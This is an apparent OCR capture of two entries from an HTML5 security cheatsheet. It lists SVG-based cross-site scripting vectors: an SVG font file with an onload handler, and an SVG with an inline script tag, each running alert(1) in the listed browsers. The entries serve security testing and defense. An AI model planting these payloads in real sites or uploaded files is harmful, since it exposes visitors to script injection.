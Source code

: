 ```
<?xml version="1.0" standalone="no"?> <html > <head> <style type="text/css"> @font-face {font-family: y; src: url("font.svg#x") format("svg");} body {font: 100px "y";} </style> </head> <body>Hello</body> </html>``<?xml version="1.0" standalone="no"?><!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd"><svg onload="alert(1)" ><defs><font id="x"><font-face font-family="y"/></font></defs></svg>required_mime: image/svg+xmlcrossdomain: 0path: [`html5sec.org/font.svg`](http://html5sec.org/font.svg)name: font.svg 
```

*   opera 10.0

*   xss

*   javascript
*   opera
*   svg
*   font
*   svgfont

reporter：.mario

### SVG file executing JavaScript via <SCRIPT> tag#47test

SVG files can force the user agent to execute JavaScript via plain <SCRIPT> tags inside any SVG element without user interaction

```
<svg ><script>alert(1)</script></svg> 
```

SVG files should not be treated as images - especially when coming to uploads. An SVG file can contain arbitrary HTML data as well as event handlers in native elements

*   opera 10.x
*   opera latest

*   chrome 4.0

*   chrome latest

*   firefox 3.x

*   firefox latest

*   internet explorer 9.0

*   internet explorer latest

*   safari 5.0

*   safari latest

*   xss

*   svg
*   script
*   opera
*   firefox
*   chrome
*   internet explorer
